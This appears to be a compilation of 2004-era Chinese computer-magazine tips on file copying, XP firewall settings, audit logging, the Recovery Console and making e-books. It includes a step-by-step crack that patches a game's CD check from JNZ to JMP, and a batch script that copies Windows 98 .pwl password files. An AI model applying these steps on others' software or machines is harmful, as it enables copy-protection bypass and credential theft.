你也可以把这个软件植入注册表，方法是打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\UPHClean\Parameters]，在右侧窗格中找到REPORT_ONLY并将其值设定为1即可。
(LX)

## 复制海量文件如何断点续传？

### “无法传输”是怎么来的

当需要传输多个文件或目录时，由于硬盘读写速度是有限的，因此传输的文件或目录就有了一个先后顺序问题，那么这个时候传输又是怎样完成的呢？为了让大家更加明白其中原理，举个例子吧。假设c:\test目录下面有1.txt、2.txt文件、一个包含a.txt的子目录A和一个包含b.txt的子目录B，将c:\test目录拷贝到c:\test1。这个过程在图形界面上只是一闪而过，我们通过DOS的方法来进行，打开命令提示窗口输入xcopy "c:\test" "c:\test1" /e，这个过程就是先1后2，先a后b，先文件后目录(见图1)，经过多次试验可以发现文件复制顺序是按照文件名的数字、字母先后循序来进行优先级别排列的。

```
xcopy "c:\test" "c:\test1" /e
```


知道了复制有先后的道理，也就不难理解为什么复制会中断了。当要复制的文件有很多，排在前头的某文件由于正在被使用，但系统的复制命令就不会跳过此文件，也就无法复制后面的文件，导致复制过程停止，如果想提高文件传输的效率，就得找出和绕开这个无法复制或移动的文件！

### 巧用WinRAR传递文件

你一定遇到过这样的事情：在复制一个包含许多文件的文件夹时，其中某个文件损坏或正在被系统使用，复制立即中断。虽然已有一些文件复制到目的地，但由于文件过多，你不知道究竟哪些已经复制，哪些还没有。为了保险，只好重新复制文件。其实，常用的WinRAR就能轻易绕过这些无法复制的文件，将文件传输进行到底，而且还能把其中被使用的文件找出来！
第一步：打开该文件夹，在文件夹空白处右击，选择“添加压缩文件”。
第二步：默认压缩文件是保存在当前目录下的，这里要将数据移动到另外一个磁盘，在弹出的参数设置的“常规”选项卡中单击“浏览”，选择目标保存路径(比如D:\)。
第三步：设置好后就可以开始压缩了。如果文件夹体积比较大，这个压缩过程需要花点时间。当碰到无法复制的文件，WinRAR就会弹出一个诊断信息，提示某文件无法访问，然后继续往后压缩(见图2)。



第四步：这样就绕过了正在使用的文件而把这个目录中的绝大部分数据提取出来，然后通过别的办法将其中少数几个无法访问的文件拷贝出来即可。最后将提取出来的压缩文件解压到目标路径。
Just Do It
如果一张光盘中部分文件坏了，先用WinRAR对整个光盘目录进行压缩，并数据保存到硬盘中，这样不就拯救了烂盘么？

由于系统本身复制命令的“先天缺陷”，我们才想尽了办法来弥补它的缺陷，为了就是提高文件传输效率，本刊2004年第14期的《文件拷贝好轻松》一文推荐了一款能提高文件传输效率的软件Copy handler，它可以实现本地磁盘间文件的断点拷贝、自动跳过“无法访问”的文件等功能，汉化版下载地址为http://www.onlinedown.net/soft/35612.htm，相关用法请查阅该文。

### 本地文件断点续传

在文件大量传输过程中，遇到电脑死机、断电等意外，就意味着前功尽弃。通过网上邻居在网络间复制文件时，如果遇到网络速度不佳、断线、对方关机、重启等问题，重头来过也只能是惟一的选择。如果你经常要传送大文件，WinRAR就显得有点业余了。

### 实战1：用FlashFXP断点拷贝本地文件

我们知道用FlashFXP等FTP软件从远程服务器复制文件，即使碰上死机、网络速度不佳、断电或断线等意外都是可以续传的。利用这个原理，在传输大量文件时用这样的方式来进行，也就不怕这个过程中有什么意外了。
第一步：首先用一个FTP服务器软件建立一个FTP下载服务器。这样的软件有很多比如Serv-U、Gene6 FTP等专业的FTP服务器软件，不过如果只是某时的需要，那么建立一个简单的FTP即可，笔者推荐一款迷你型的FTP建站软件——CHKen FTP。

CHKen FTP服务器小档案
软件版本：1.0
软件大小：16KB
软件性质：免费软件
适用平台：Windows9x/NT/2000/XP
下载地址：http://www.onlinedown.net/soft/26126.htm

使用说明：CHKen FTP只有一个可执行文件，双击执行，单击“设置”；先在“系统设置”的“用户组管理”选项卡中通过右键菜单建立并激活一个用户组，并指定所要传输的文件路径为“根目录”，然后在“用户管理”中建立一个账户归到刚才建立的用户组中，并激活用户(见图3)，然后，切换到“服务器参数”设置端口(这里也可将服务器设置为匿名登录和匿名权限)，点击“应用”即可。不过要注意一点，这个CHKen FTP不能列出太多的文件，否则可能FTP服务不稳定。

第二步：打开 FlashFXP，用本机 IP（localhost 或 127.0.0.1）登录到 FTP，然后和一般的使用方法是一样的，这样我们可以在本地完成盘与盘对拷、大文件转移等文件传输，即使是突然断电也没事，因为 FlashFXP 可以断点续传。

## 实战 2：用 QQ 玩本地文件的断点拷贝

如果和远处的朋友分享某些文件（比如音乐、电影等），一般会想到通过 QQ、MSN Messenger 等常用通讯软件进行传送，而且它们都有断点续传的功能。如果是从同一台电脑的一个位置复制到另一个位置，是不是也能断点续传呢？一起来看看吧！

- 第一步：连通网络后，同时登录两个不同的 QQ 账户，并相互加为好友（没有两个账户？向别人借一个吧）。
- 第二步：打开这两个 QQ 账户的对聊窗口，用其中一个 QQ 账户向另一个发送一个文件（体积稍微大一点，要不瞬间就传完了），然后选择保存路径。稍等，开始高速传输数据。



- 第三步：传输部分数据后关闭其中一个窗口，这时传输就会停止，如果我们再重复第二个步骤，文件的保存路径也是一样话，QQ 就提示我们刚才已经接收了多少数据，然后选择“继续接收”。这样不就等于本地文件复制也能续传了么？
- 第四步：数据传输过程中，将电脑重启，启动后，我们重复刚才的操作，结果发现 QQ 还在提示我们已经发送了多少 KB 的数据，是否续传（见图 4）！当然是续传了！怎么样，没想到重启后 QQ 还能续传吧？
其实道理很简单，用 QQ 发送一个文件，它先把数据保存到安装目录下的 QQFileCache 目录中，并随时记录传输完成度。由于 QQ 账户是本地，这样的过程就相当于可以记录复制的完成度了！当然，这样的传输速度是没有直接拷贝的快，不过对于传递几十个 GB 的大文件还是很有用的，毕竟不怕断线了！

（上海 李晓汇）

## XP SP2 防火墙实战策略

### 芝麻开门

- ★Windows XP SP2 防火墙的工作原理
对于只使用浏览、电子邮件等系统自带的网络应用程序，Windows 防火墙根本不会产生影响。也就是说，用 IE、OutlookExpress 等系统自带的程序进行网络连接，防火墙是默认不干预的。微软在设置防火墙内置规则时，已经为自家的应用程序开了“绿色通道”，所以装上 SP2 后，即使打开其防火墙并且启用“不允许例外”，无需将 IE 加到“例外”就能上网，而防火墙也不会询问是否要允许 IE 通过。
- ★SP2 防火墙与第三方防火墙软件的区别
仅就防火墙功能而言，Windows 防火墙只阻截所有传入的未经请求的流量，对主动请求传出的流量不作理会。而第三方病毒防火墙软件一般都会对两个方向的访问进行监控和审核，这一点是它们之间最大的区别。如果入侵已经发生或间谍软件已经安装，并主动连接到外部网络，那么 Windows 防火墙是束手无策的。不过由于攻击多来自外部，而且如果间谍软件偷偷自动开放端口来让外部请求连接，那么 Windows 防火墙会立刻阻断连接并弹出安全警告，所以普通用户不必太过担心这点。这就好像宾馆里的房门一样——外面的人要进入必须用钥匙开门，而屋里的人要出门，只要拉一下门把手就可以了。

这时需要将游戏信息下载到本地（就是有外部访问请求），防火墙就弹出了“Windows 安全警报”（见图 2）。

- 第二步：在“控制面板”中打开防火墙并启动，确认不勾选“不允许例外”这个选项；当打开 BitComet 后，Windows 防火墙有可能提示你是否要阻止该程序，选择“解除阻止”；
- 第三步：点击“例外”选项卡，勾选“UPnP 框架”即可。

## 实战 1：天网防火墙和 Windows 防火墙的不同

我们用两种软件来分别对 QQGame 的网络请求进行监控。

- 第一步：确认不要将 QQGame 这个程序添加到各自的“例外”规则中，然后登录 QQ 游戏大厅；
- 第二步：这时你会发现，天网个人防火墙立即阻止 QQ 游戏的网络访问，然后询问是否给予通行（见图 1）；
- 第三步：而 Windows 防火墙对这个主动出站的请求不做任何处理，就好像没有防火墙一样，输入帐户信息后登录到游戏平台，QQGame 实际上已经完成了往外网络访问；



### 小提示

取消“Windows 安全警报”的方法：打开防火墙设置后，在“例外”选项卡中取消选择“Windows 防火墙阻止程序时通知我”即可。

## 实战 2：让 XP SP2 正确识别 UPnP（通用即插即用）

战前分析：BitComet 以其拥有内网互联（NAT Traversal）技术，而且支持 UPnP 的 NAT 和 Windows XP 防火墙，让内网的朋友在进行 BT 下载时可以获得相当快的下载速度。但自从升级到 SP2 并开启了 Windows 防火墙后，BitComet 软件速度变得很慢！这是由于防火墙没有设置好，使得系统没能正确识别 UPnP 设备。

- 第一步：Windows XP 默认是支持 UPnP 的，如果在“例外”看不到这个选项，则说明没有安装 UPnP 设备支持。打开“网上邻居”窗口，在其左侧的工具栏中点击“显示联网的 UPnP 设备的图标”，如果 UPnP 设备文件没有安装或安装不正确，系统就会自动安装（见图 3）；





## 实战 3：给远程管理开个通行证

战前分析：当通过 MMC 控制台中的 Computer Management（计算机管理）、Disk Management（磁盘管理）等组件远程管理程序来管理局域网上的其他计算机，计算机必须开放 TCP 445 端口。如果在远程操作已经安装 XP SP2 并开启了防火墙的计算机时，就得手动打开这个 TCP 端口。

- 第一步：打开防火墙设置窗口，切换到“例外”选项卡，勾选“文件和打印机共享”；
- 第二步：单击“编辑”按钮，在打开的“编辑服务”窗口中选中“TCP 445”，单击更改范围，勾选“仅我的网络”或者勾选“自定义列表”并输入要控制的计算机的 IP 地址（见图 4）。



### 小提示

上列步骤可以用命令代替，即在命令提示符窗口中输入“netsh firewall set portopening TCP 445 TCP445 ENABLE”（不包括引号）。

## 实战 4：彻底搞定“远程桌面”连接

战前分析：通过 Windows XP SP2 防火墙实现远程协作的方法很简单，远程协作使用的是动态端口。在防火墙设置对话框中的“例外”选项卡上“程序和服务”列表中选择“远程协作”项目，这样 Windows 将自动监视并正确处理来自 sessmgr.exe 应用程序的所有通讯请求完成连接。Windows NetMeeting 的远程桌面要复杂一些，尽管在例外选项卡中有“远程桌面”选项，但是如果你选择这个选项，实际是开放了 TCP 的端口 3389，也可能无法完成远程桌面连接。

方法：在 Windows 防火墙打开的情况下，在可以使用 Windows NetMeeting 的远程桌面共享功能之前，必须向 Windows 防火墙的“例外”选项卡上“程序和服务”列表中分别为 Windows NetMeeting 和 %systemroot%\System32\Mnmsrvc.exe 文件和 C:\Program Files\NetMeeting\conf.exe 文件分别添加一个条目即可。

## 实战 5：只让内网来“Ping”我！

战前分析：在默认情况下 XP SP2 防火墙不允许 ICMP 入站数据进入，也就不会回复 ICMP 返回数据，这样可以防止检查网络故障常用的命令工具“Ping”来探测你的计算机，不过这样对于一些启用了共享上网的用户，内网就无法用 Ping 来检查自己的网络情况了。

方法一：按照实战 2 的方法，分别将“文件和打印机共享”中所打开的 TCP 端口适用于子网即可。

方法二：打开 Windows 防火墙，切换到“高级”选项卡，双击与内网连接的那个“本地连接”，切换到“ICMP”选项卡，勾选“允许传入的回显请求”，确认所有操作即可（见图 5）。


### 小知识

### ICMP 协议

ICMP 是“Internet Control Message Protocol”（Internet 控制消息协议）的缩写，它是 TCP/IP 协议簇中的一个子协议，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络通不通、主机是否可达、路由是否可用等网络本身的消息，这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要的作用。我们在网络中经常会使用到 ICMP 协议，只不过我们觉察不到而已。比如我们经常使用的用于检查网络通不通的 Ping 命令实际上就是 ICMP 协议工作的过程，还有诸如跟踪路由的 Tracert 命令也是基于 ICMP 协议的。（北京 王勇）

### 菜鸟的入门知识

### 1. 审核策略是什么

审核策略是 Windows 2000 及以后版本组策略中引入的一个安全机制。它可以用日志形式记录系统中已经被审核的事件，而系统管理员通过生成的日志文件，能轻易发现和跟踪发生在所管理区域内的可疑事件。比如：谁曾经访问过哪个文件、哪些非法程序入侵了你的电脑等。

### 2. 如何开启“审核对象访问”策略

所有“审核策略”默认是没有打开的，需要手动开启。依次打开“控制面板→管理工具→本地安全策略”或在“开始→运行”中输入“secpol.msc”，打开组策略中的“本地安全设置”编辑器，依次定位到“本地策略→审核策略”，双击右侧窗格中的“审核对象访问”，勾选“成功”或“失败”即可（见图 1）。



### 3. 查看事件日志

设置了一则审核策略，还得通过事件查看器来获取信息。在“开始→运行”中输入“Eventvwr.msc”，接着定位到“事件查看器→安全性”，在右侧窗格中记录了许多“成功审核”、“失败审核”的安全性事件。通常情况记录的事件很多，可以对其进行筛选，依次选择“查看→筛选”，在“筛选器”选项卡下面的时间类型中只勾选“成功审核”和“失败审核”；而“事件来源”和“类别”可根据不同的审查对象和审查内容进行筛选，一般情况只需要查看 560 事件即可（见图 2）。



### 4. 使用审核策略的前提

实行审核策略的前提，首先是安装了 Windows XP 专业版（或 Windows 2003），要求审核的文件、文件夹和注册表项等必须位于 NTFS 文件系统分区，其次必须如上述打开对象访问事件审核策略。符合以上条件，就可以对特定文件或文件夹进行审核，并且对哪些用户或组指定哪些类型的访问进行审核。

### 实战应用初探

### 实战任务 1：商业间谍做了些什么？

任务描述：阿桂是一家 IT 公司的网管，最近，老板发现一些商业秘密不胫而走，他想在不让员工们知道的前提下，监控手下人什么时候访问过或使用了公司电脑中指定的磁盘或文件夹中的资料，比如：服务器“D:\data”文件夹。老板觉得小何最可疑，于是决定从监视他入手。

战前分析：公司员工每个人都分配有一个不同账户（记得不能给他们修改策略设置的权限！），只要监视选定账户或组对目标访问时，需要监视目标的访问权和执行权即可。开始前首先在“文件夹选项→查看”标签下取消“使用简单文件共享”。

- 第一步：在“审核策略”中双击右侧的“审核对象访问”，勾选“成功”，确认操作并退出编辑器。右击目标磁盘或文件夹选择“属性”，切换至“安全”选项卡，单击“高级”，切换至“审核”标签。
- 第二步：单击“添加”，输入小何使用的用户名，因为小何属于普通用户组（users），所以输入“计算机名\users”，单击“确定”（见图 3）。这时会弹出审核项目选择窗口，因为要监视小何对目标的“访问权和执行权”，因此要勾选“遍历文件夹/运行文件”（见图 4），确定所有操作。



第三步：这时策略已经完成了。现在可以试试是否有效。打开事件查看器，右击“安全性”，选择“清空所有事件”后注销系统。这时，小何登录此系统，访问一下“D:\data”并执行其中一个文件（比如运行了存放在该目录底下的“MSN6.2.exe”文件）。注销系统后，阿桂用管理员身份登录，查看一下日志，是不是清楚地记录了刚才小何的访问行为（见图 5）？哈哈，证据在手，小何即使再聪明，也逃不过网管阿桂的火眼金睛。

### “两个”CPU 我该如何用好它们

这段时间，我用上了单位新购进的方正电脑，配置相当不错，尤其是那颗 CPU：含超线程技术（HT）的 P4 2.8GHz，这是我第一次用上“两个”CPU 同时工作。不过，在使用中也多少遇到点小问题，因为不是所有应用程序对 Intel 的超线程技术支持都很好，有些软件尤其是老一点的在使用“双 CPU”工作时反而会减慢运行速度。虽然可以在 BIOS 中禁止使用 HT 技术，但这样一来所有的软件都将无法使用这一先进技术了，未免太可惜了。

其实，完全可以定制具体的应用程序是否使用 HT 技术，这样就可以“因地制宜”了。当然，首先必须装有支持超线程技术的操作系统，如 Windows 2000 SP3 以上、Windows XP 等；然后在系统中同时按下“Ctrl”、“Alt”、“Delete”三键，并选择“任务管理器”，在“应用程序”中右击希望设定的已经启动的应用程序，在弹出菜单中选择“转到进程”，在相应进程中点击右键，如图 1，选“关系设置”，这时将弹出如图 2 的设置界面。现在就可以通过勾选其中的 CPU0 和 CPU1 来决定是用 1 个 CPU 工作还是两个，建议如果想用一个 CPU 工作，那就去掉 CPU1 前的勾即可了，最后按“确定”退出，这时该程序就将由一个 CPU 进行工作。（北京 成兆义）









## 实战任务 2：我想知道是谁‘绑架’了我的 IE？

任务描述：相信你曾有过类似经历，家人经常用你的电脑上网，可是在你使用该电脑后发现 IE 的首页不知道被哪个恶意的家伙‘绑架’了！虽然你可以恢复到原来样子，却不知道在哪家网站上遭的殃！怎么才能在下次 IE 被‘绑架’时抓住真凶呢？

战前分析：我们知道修改 IE 首页，其实就是修改注册表中添加一些键值，只要监视注册表中记录这些信息的键，找出‘绑匪’应该不是什么难事。

- 1. 第一步：在‘审核对象访问’中设置审核‘成功’。打开注册表编辑器，找到 [HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main]，右击‘Main’项选择‘权限’。
  - 小提示：如果有必要也可把 [HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main] 一并监视了。
- 2. 第二步：单击‘高级’，切换至‘审核’，输入当前用户账户，在访问审核项目中勾选‘设置数值’后应用此规则。
- 3. 第三步：打开 http://www.cfan.com.cn，依次选择‘工具→Internet 选项’，在‘常规’项下把当前页面设置为默认首页。这时，打开事件日志查看器，根据日志记录就轻易地找到了被修改了的注册表项目（见图 6）。





## 实战任务 3：怎么揪出注册表中的‘内鬼’？

任务描述：一些软件在安装后在不提示用户的情况下就自动添加启动程序，更有甚者还附带木马程序！而这些可恶的行为通常是很难直观察觉的，那么怎么才能识别和揪出它们在注册表中所放置的‘内鬼’呢？

战前分析：这个任务在本刊 2004 年第 17 期的《捉出注册表中的内鬼——注册表监视器》一文中有过介绍，该作者是通过许多注册表监控软件来完成的。其实用软件监控的原理就是对控制系统自启动组的注册表键值进行了监控，然后根据前后监控目标数据的变化来判断的，现在用‘审核对象访问’策略完成这项任务。以安装 MSN Messenger 后，自动添加一个自启动项为例。

- 1. 第一步：按同样方法，建立一个审查修改注册表中 [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run] 键的策略。
- 2. 第二步：打开事件日志查看器清空一下列表，然后安装 MSN Messenger。
- 3. 第三步：再次打开日志查看器，在右侧窗口中就可以找到修改自启动的事件记录（见图 7）。

（广西 庞锦荣）

## 用好故障恢复控制台

### 1. 长文件夹名必须要使用引号（"）

在控制台中键入长文件夹名或长文件名，必须使用英文引号括起来。否则，将显示‘无此文件夹或文件’。例如：要进入‘C:\Windows\WindowsUpdate’目录，要键入命令：‘cd c:\Windows\”WindowsUpdate”’，或者‘cd c:\”Windows \WindowsUpdate”’，或者‘cd “c:\Windows\WindowsUpdate”’。

我的经验谈：在控制台中如果用 DIR 命令列目录时，显示的结果会与以前的 DOS 相反，就是文件或文件夹名列在了最后面，最前面是创建时间。另外，《电脑爱好者》16 和 18 期介绍的 ERUNT 软件真的太棒了，好几次在安装软件时出现问题，系统蓝屏无法启动，我都是进入控制台，进入 WINNT\ERDNT 文件夹，这里保存着每天开机时对系统注册表的备份，它们的文件夹名为‘2004-11-03’这样的格式，因此在进入时就得输入‘CD “2004-11-03”’。最近这个软件又升级了，下载地址为：http://home.t-online.de/home/lars.hederer/erunt/erunt-setup.exe。

### 2. 文件夹名包含空格必须要使用引号（"）

在控制台中要键入包含空格的文件夹或文件名，必须使用英文引号括起来，否则，将显示‘参数无效’。例如：要进入‘C : \Windows\Windows Update’目录，要键入‘cd c:\Windows\”windows update”’，或‘cd c:\”Windows\windows update”’，或‘cd “c:\Windows\windows update”’。

### 3. 访问非 Windows 目录

默认情况下，控制台只能访问 Windows 目录。要访问其他目录，需要执行下面步骤。

- 第一步：登录 Windows，单击‘开始→运行’，键入‘Gpedit.msc’命令并回车，单击‘计算机配置→Windows 设置→安全设置→本地策略→安全选项’，双击‘故障恢复控制台：允许对所有驱动器和文件夹进行软盘复制和访问’，然后选择‘已启用’。
- 第二步：进入控制台，在命令提示符下键入‘Set’命令，回车后屏幕显示：

```
AllowWildCards = FALSE
AllowAllPaths = FALSE
AllowRemovableMedia = FALSE
NoCopyPrompt = FALSE
```

接着在命令提示符下键入‘set allowallpaths = true’命令并回车（注意等号左右都要有一个空格），就可以访问其他目录。否则将显示‘禁止访问’。

我的经验谈：最近，我的电脑运行非常慢，查看 Windows XP 的‘启动’项，发现多了一些程序。打开所在目录，有两个可执行文件，wincomm.exe 和 winlock.exe。wincomm.exe 运行后，会在注册表启动键值中监控自己必须加载，并且使 winlock.exe 运行并随时监控它是否运行；同样，winlock.exe 也监控 wincomm.exe 是否运行，一旦发现对方不在内存中，就立刻使对方运行。照这样原理，如果是病毒，杀毒软件想清除它都难呀。而我利用控制台轻松解决了这个问题，首先按照上面的方法设置好，然后用 CD 命令进入两个程序所在文件夹，依次输入：“del wincomm.exe”和“del winlock.exe”，终于将两个难以删除的程序搞定了。

### 4. 返回上一级目录

必须键入‘cd ..’命令，不能使用‘cd \’命令。

### 5. 小心盘符变化

在控制台中驱动器盘符可能会有变化，比如移动硬盘的位置可能会提前。为避免操作错误，输入‘Map’命令并回车，将显示当前所有可用驱动器盘符、文件系统以及空间大小等内容，可据此判断。

小提示：要退出控制台，在命令提示符下键入‘exit’命令，重新启动电脑即可。

### 6. 经验总结

(1) Windows 2000 以上操作系统虽然没有了真正的 DOS 系统，但是别忘了‘系统故障控制台’，用它除了恢复系统文件外还可以删除顽固程序呢！

(2) 在‘系统故障控制台’里，许多命令的用法跟 DOS 下有些差别，要注意添加空格，像‘SET AllowAllPaths = TRUE’这个命令，‘=’号左右都要加空格，否则会提示错误的命令。还有 DIR、CD 等命令都与 DOS 下不一样，具体的用法，可以使用‘命令名 /?’来查看该命令的帮助。

（深圳 傅陈伟）

# 电脑里开出版社 轻松自制电子书

最近在网上看到搜狐开了图书频道：http://act.it.sohu.com/book/，里面有许多出版社的热门或畅销书提供试读，比如：《Word排版艺术》、《电脑办公高手100招终极解析》、《黑客攻防技术内幕》、《学电脑之电脑医生》……而且免费试读的章节非常多，粗粗看了一下，发现其中有不少好书，即使只是一些章节（有的甚至是整本书都能免费浏览），也非常值得收藏下来慢慢阅读。于是便利用网络信息收集与整理工具——网文快捕，把感兴趣的图书全部下载回来并制作成了CHM电子书。

- 软件版本：4.2 beta 1
- 软件大小：4.2MB
- 软件性质：共享软件
- 适用平台：Windows 98/Me/2000/XP
- 下载地址：http://www.wizisoft.com/cn/download.asp

第一步：首先打开网文快捕，点击“工具→综合设置→浏览器增强”，接着单击“配置”按钮，在打开的窗口中单击“添加”按钮，接着按照如图1所示进行“保存内容”选择和“菜单”的文字填写。然后重启IE，这样就在IE的右键菜单中添加了“保存：选中的所有链接”项。



第二步：进入http://act.it.sohu.com/book/，挑选一本自己感兴趣的图书，这里以《开天辟地学电脑之电脑医生》http://act.it.sohu.com/book/serialize.php?id=130为例。进入这本书的网页后，凡是文字呈现超级链接的蓝色部分都是可阅读的章节，全部选中这些章节的链接后右击，在弹出菜单中选择“保存：选中的所有链接”（见图2）。



第三步：在打开的窗口中首先单击左侧上方的“…”按钮，在弹出菜单中选择“新建书籍”，接着在打开窗口的“文件名”处输入“电脑故障相关图书”，按下“保存”按钮返回，接着右击“文件夹”窗格的“电脑故障相关图书”并选择“文件夹”，在“新建文件夹”窗口中输入“《开天辟地学电脑之电脑医生》”，完成后选中这个文件夹，然后在右侧窗格的“链接”选项卡中按下“全部选择”按钮，将所有链接选中，最后再单击“确定”按钮，这样网文快捕的CyberArticle Express便自动启动并下载网页（见图3）。



第四步：在完成下载后打开网文快捕，在左侧窗格上单击“书籍”标签，在打开的窗格中再双击“电脑故障相关图书”图标进入“节点”选项卡（见图4），对下载的网页进行检查。



第五步：点击“文件→制作电子书→制作电子书（EXE格式）”，在弹出窗口中选择“创建一个只包含当前文件夹的电子书”，“确定”后弹出如图5所示的窗口，首先在“文件”选项卡中单击“…”按钮为电子书设置文件名和保存位置，接着进入其他选项卡进行其他设置，比如：窗口标题、图标、作者信息、阅读限制、反编译密码等，完成后单击“制作”按钮，很快就一本电子书就制作完成了。



你可以利用同样方法将其他感兴趣的图书制作成电子书，但提醒注意的是，这些宝贵的图书只能用来自己学习，千万不要用于其他用途，否则可要违法了哟！
（ABC）

# 光盘版游戏完美破解

电脑游戏玩家都遇到过这样的问题，很多游戏在运行时仍需要插入光盘（“完全安装”情况下竟然也是如此）。如果光盘不慎遗失或光驱故障，面对安装好的游戏你是否就无计可施了呢？你可能会选择从网上下载高手制作的免CD补丁，可是并非每个光盘版游戏都能找到或能用这样的补丁。本文就要让你扮演一回高手的角色，自己来打造完美的硬盘版游戏。
特别声明：本文目的只是为了让购买正版游戏的用户能够在不磨损光驱的情况下方便地进行游戏，以下修改例子中皆隐去了部分游戏名称。

## 去除光盘检测

游戏所有文件均已安装至硬盘中，仅在游戏开始时出于版权保护目的检测一次光盘。

修改原理：在游戏程序开始位置有一段检测光盘的代码，最简单的检测方式就是从光盘中读取特定文件，没有读到则弹出提示框并强制退出游戏，如果读到并确认为该游戏光盘，则程序跳转到游戏开始处。

- 修改难度：★★★
- 所需工具：W32DASM（下载地址：http://www.pediy.com/tools/Disassemblers/W32Dasm/W32dsm8.93.rar），RTA（下载地址：http://www.pediy.com/tools/Editors/RTA/rta.zip）。



第一步：下载W32DASM并解压，运行解压目录中的W32dsm8.93+.exe。选择W32DASM主界面菜单“Disassembler→Open File to Disassemble”（反汇编→打开需要反汇编的文件），在文件选择框中选择打开《××物语》安装目录下的zweipet.exe。
第二步：选择菜单“Functions→Imports”（函数→输入表），在弹出窗口中有一个列表框详细列出了程序中用到的API函数。在窗口上方文本框中输入“GetDriveType”（不含引号）并点击右侧“Search”（搜索）按钮，下方列表框中就选中了该函数所在行，接着双击它（见图1）。

第三步：在W32DASM主界面的代码显示框中就以高亮方式选中了GetDriveType函数的调用位置，将代码框稍微往下拉一点就能看到光盘检测代码了（见图2）。代码框最左侧的蓝色数字是代码的位置，如本文中在zweipet.exe中找到GetDriveType的位置为0048843，而光盘检测代码的位置在004088BD处。以下是代码简要注释：



```
:004088BD mov eax,dword ptr[esp+14]
:004088C1 test eax,eax //检查是否有光盘
:004088C3 jnz 004088DB //有光盘则跳转到004088DB位置(即游戏开始位置)，没有光盘则不跳转
:004088C5 push 00000000
:004088C7 push 00428934
:004088CC push 00428919
:004088D1 push 00000000
:004088D3 call dword ptr[004233EC] //弹出一个提示窗口“请插入××物语的游戏光盘”(见图3)
:004088D9 jmp 00408933 //程序转向代码结束部分，也就是强制退出游戏
```

小提示
API是程序调用系统功能的函数接口，比如程序要检测光盘，就必须使用GetDriveType函数来获得盘符的设备类型，因此找到GetDriveType函数在程序中的调用位置，就一定能在附近找到光盘检测代码。




第四步：可以看到在004088C3处决定了程序走向（是继续下一行代码还是跳转到004088DB处开始游戏），如果能让程序不加判断直接跳转到004088DB，就等于跳过了光盘检测。关闭W32DASM，打开刚才下载的RTA，选择菜单命令“File→Open File”（文件→打开文件），同样也是打开zweipet.exe。RTA界面立即显示出zweipet.exe的汇编程序代码。最左侧的红色数字为代码位置，边上蓝色十六进制数为该行代码的机器码，右侧黄色文字则为汇编代码。找到要修改的位置004088C3，这句汇编代码为“JNZ SHORT 4088DB”，将其修改为“JMP SHORT 4088DB”（不含引号，机器码为EB16）（见图4、5）。

> 你知道吗
JNZ和JMP是什么意思？
JNZ为有条件转移指令，先检测一个条件，如果满足则跳转，否则继续执行下一行代码。而JMP则为无条件转移指令，不检测任何条件而直接跳转至需要转移的位置。

第五步：选择菜单命令“File→Save File”（文件→保存文件），将修改成果保存。重新运行“××物语”，不再有讨厌的“请插入××物语的游戏光盘”提示框出现，没有光盘也能玩！

## 将光盘文件复制到硬盘

硬盘上仅有部分游戏文件，没有复制的光盘文件的路径记录在文件或注册表中。
修改原理：将需要从光盘中提取的内容复制到本地硬盘中，并修改路径记录使游戏程序从本地硬盘进行读取。

- 典型游戏：《××医院》
- 修改难度：★★
- 所需工具：记事本

第一步：《××医院》在安装过程中即使选择“完全安装”，在运行时也需要插入光盘，并且插入光盘后确实在游戏过程中有较大数据量的读取，故判断其有一部分游戏文件没有安装到本地硬盘中。插入该游戏光盘，浏览其下文件并与硬盘中的游戏安装目录中的文件作比较，发现有几个目录中的文件数都不同，但光盘与硬盘的目录结构一致。

第二步：从光盘中将缺少的游戏文件复制到硬盘中的游戏安装目录中（可用“覆盖”），再次运行游戏却发现仍提示插入游戏光盘。因为游戏程序并不知道你把缺少的游戏文件复制到硬盘中了，仍然去寻找光盘中的文件。那么怎么能让游戏程序知道呢？我们需要修改游戏程序的“记忆”，寻找游戏设置文件（一般为文件名中包含“Config”、“cfg”、“settings”等关键字的文件），如本例中的游戏的设置文件为游戏安装目录下的Hospital.cfg，用“记事本”打开此文件，将“INSTALL_PATH=”后的路径修改为你游戏的安装路径（即硬盘中存放刚才复制过来的缺少文件的路径，本例修改后的行如“INSTALL_PATH=C:\Program Files\Bullfrog\Hospital\”），保存并关闭文件。

第三步：再次运行游戏，发现不再需要插入光盘了。

## 修改过程总结

在给出以上实例后，我们比较概括地总结一下修改步骤。首先通过文件比较及光驱读盘时间等来判断游戏的类型是A还是B。

- A. 仅检测光盘，硬盘中已安装所有游戏文件。
第一步：用W32DASM查看游戏程序文件的汇编程序代码，找出光盘检测部分的代码位置。
第二步：分析这段代码，找出条件转移指令JNZ的位置。
第三步：用RTA编辑游戏程序文件，查看刚才记录下的JNZ的位置，并将其修改为JMP（无条件转移指令）。
小提示
以上情况仅用于未做进一步加密的游戏，有些游戏在光盘检测代码处使用了“花指令”或“动态加密”技术，则无法用此法修改。

- B. 硬盘中的游戏文件不全，需要从光盘中读取。
第一步：比较硬盘中的游戏文件数与光盘中的文件数，将硬盘中缺少的文件复制到游戏安装目录相应位置中（也可复制到其他目录并在第三步的路径处做相应的修改，但出于兼容性考虑，强烈建议复制到游戏安装目录）。
小提示
有一些游戏对文件做了加密隐藏，用此法修改路径后会出现类似“缺少文件”的提示。
第二步：根据文中给出的特征识别法寻找游戏用以存放光盘文件路径的设置文件（或注册表位置）。
第三步：编辑该设置文件，并将其中的文件存放路径修改为游戏安装目录。

# 把根留住——备份 Windows 密码

## Windows 98

原理：Windows 98在用户登录时，验证密码的途径是通过校对Windows目录下的“用户名.PWL”文件，如果校对后发现此次登录所用的用户名与密码全与“用户名.PWL”文件相符，会顺利登录，相反，就无法登录。了解Windows 98登录的原理后，就可以对“用户名.PWL”文件下“药”了！

备份：新建一记事本文件，输入如下内容，然后把它保存为BACKUP.BAT。

```
@echo Bakup password.....
@echo off
md D:\pwbak
copy c:\windows\*.pwl D:\pwbak
@echo Bakup password Successfully!
pause
```

（注：“c:\”为系统盘的位置，“D:\pwbak”为密码要保存的位置，可以按需要更改，下同）

文件创建好后，只要在Windows或DOS下将其运行，即可完成对所有用户密码的备份工作了。

